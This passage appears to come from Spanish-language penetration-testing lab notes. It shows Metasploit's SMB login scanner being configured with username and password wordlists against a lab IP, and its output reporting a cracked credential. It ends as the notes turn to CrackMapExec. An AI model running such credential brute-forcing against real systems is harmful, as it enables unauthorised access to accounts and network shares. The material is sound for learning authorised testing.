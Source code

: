 ```bash
   DB_SKIP_EXISTING   none             no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   DETECT_ANY_AUTH    false            no        Enable detection of systems accepting any authentication
   DETECT_ANY_DOMAIN  false            no        Detect if domain is required for the specified user
   PASS_FILE                           no        File containing passwords, one per line
   PRESERVE_DOMAINS   true             no        Respect a username that contains a domain name.
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RECORD_GUEST       false            no        Record guest-privileged random logins to the database
   RHOSTS                              yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT              445              yes       The SMB service port (TCP)
   SMBDomain          .                no        The Windows domain to use for authentication
   SMBPass                             no        The password for the specified username
   SMBUser                             no        The username to authenticate as
   STOP_ON_SUCCESS    false            yes       Stop guessing when a credential works for a host
   THREADS            1                yes       The number of concurrent threads (max one per host)
   USERPASS_FILE                       no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS       false            no        Try the username as the password for all users
   USER_FILE                           no        File containing usernames, one per line
   VERBOSE            true             yes       Whether to print output for all attempts
```

```bash
msf6 auxiliary(scanner/smb/smb_login) > set user_file user.list
user_file => user.list
```

```bash
msf6 auxiliary(scanner/smb/smb_login) > set pass_file password.list
pass_file => password.list
```

```bash
msf6 auxiliary(scanner/smb/smb_login) > set rhosts 10.129.42.197
rhosts => 10.129.42.197
```

```bash
msf6 auxiliary(scanner/smb/smb_login) > run

[+] 10.129.42.197:445     - 10.129.42.197:445 - Success: '.\user:password'
[*] 10.129.42.197:445     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Ahora podemos usar **CrackMapExec** nuevamente para ver los recursos compartidos disponibles y los privilegios que tenemos sobre ellos.

### CrackMapExec
